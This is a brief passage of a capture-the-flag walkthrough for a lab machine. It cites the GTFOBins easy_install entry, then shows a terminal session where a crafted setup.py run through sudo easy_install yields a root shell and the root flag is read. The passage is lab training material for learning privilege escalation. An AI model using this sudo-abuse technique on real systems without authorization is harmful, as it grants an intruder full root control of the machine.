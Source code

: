 in&#x20;

{% embed url="https://gtfobins.github.io/gtfobins/easy_install/" %}

<figure><img src="../../.gitbook/assets/12 (1).png" alt=""><figcaption></figcaption></figure>

lets do as it said and get root user and read root.txt flag

```
developer@updown:~$ TF=$(mktemp -d)
developer@updown:~$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
developer@updown:~$ sudo easy_install $TF
WARNING: The easy_install command is deprecated and will be removed in a future version.
Processing tmp.VIhcqcpyLg
Writing /tmp/tmp.VIhcqcpyLg/setup.cfg
Running setup.py -q bdist_egg --dist-dir /tmp/tmp.VIhcqcpyLg/egg-dist-tmp-OBPeCy
# whoami
root
# cat /root/root.txt
```

